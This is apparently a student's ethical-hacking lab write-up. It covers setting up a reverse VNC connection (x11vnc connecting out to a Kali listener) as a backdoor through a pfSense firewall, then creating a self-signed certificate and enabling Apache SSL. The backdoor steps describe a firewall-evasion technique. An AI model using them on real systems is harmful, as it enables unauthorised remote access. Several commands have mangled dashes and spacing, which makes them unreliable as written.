 #  VNC as a Backdoor and Creating/Installing SSL Certificates

## Objective
Topology: OpenSUSE, pfSense, and Kali

- Utilize TightVNC to create a reverse connection through a firewall.
- Create a self-signed X.509 certificate and install it on a Linux web server.
---

## Overview / Directions
**OpenSUSE**

1. Inititated TightVNC in an OpenSUSE Terminal.
2. Switched to Kali Terminal and input the 'vncviewer' command to open a server window.
3. Input the OpenSUSE IP address:5902 and password. Closed the window that appeared and switched back to the OpenSUSE tab and input 'vncserver–kill :2'.
4. Switched back to the Kali Terminal and input 'vncviewer–listen 0'.
5. Switched back to the OpenSUSE Terminal and navigated to the /usr/bin directory and established a listener connection outside of the firewall with ' ./x11vnc–connect IP
   address:5500'.

**Kali Linux**

Self-Signed Cert:

1. Generated an SSL key >  openssl genrsa–out ca.key 2048
2. Generated a new Certificate Signing Request (CSR) >  openssl req–new–key ca.key–out ca.csr
3. Filled out a Distinguished Name (DN) to be incorporated into the CSR
4. Generated a self-signed key >  openssl x509–req–days 365–in ca.csr–signkey ca.key–out ca.crt
5. Copied the ca.crt file from the current directory to the /etc/ssl/certs/ directory >  cp ca.crt /etc/ssl/certs/ca.crt
6. Copied the ca.key file from the current directory to the /etc/ssl/private directory >  cp ca.key /etc/ssl/private/ca.key
7. Copied the ca.csr file from the current directory to the /etc/ssl/private/ directory >  cp ca.csr /etc/ssl/private/ca.csr

Apache SSL File Configuration/SSL Cert Testing:

1. Navigated to the /etc/apache2/sites-available/ directory >  cd /etc/apache2/sites-available
2. Copied the default-ssl.conf file >  cp default-ssl.conf localhost-ssl.conf
3. Edited the localhost-ssl.conf file using the Mousepad file editor >  mousepad localhost-ssl.conf
4. Changed the SSLCertificateFile and SSLCertificateKeyFile paths >  SSLCertificateFile /etc/ssl/certs/ca.crt SSLCertificateKeyFile /etc/ssl/private/ca.key
5. Saved the fie. Exited Mousepad.
6. Changed to the sites-enabled directory >  cd /etc/apache2/sites-enabled/
7. Enabled the localhost-ssl site >  ln-s /etc/apache2/sites-available/localhost-ssl.conf
8. Enabled the SSL Apache Mod >  a2enmod ssl
9. Restarted the Apache service > service apache2 restart
10. Opened web browser and viewed ht*ps://localhost warning message/certificate details.


---

## Tools / Skills Used
- **Tools:** TightVNC; OpenSUSE; Kali Linux
- **Skills:** file/directory management; X.509 SSL certificates; web server (Apache) SSL certification configuration

---

## Proof of Completion
**[Documentation](./Documentation)**

---

## Key Takeaway
This lab strengthened my **technical adaptability and problem-solving** skills by establishing a secure reverse VNC connection and manually creating and configuring SSL certificates on a Linux web server. Navigating multi-step processes across TightVNC, OpenSUSE, Kali, and Apache enhanced my **persistence, analytical reasoning, and foresight** in planning secure configurations. These abilities transfer directly to real-world scenarios where secure remote access and encrypted communications are critical for system integrity.

**[Return to Ethical Hacking Overview](./../README.md)**
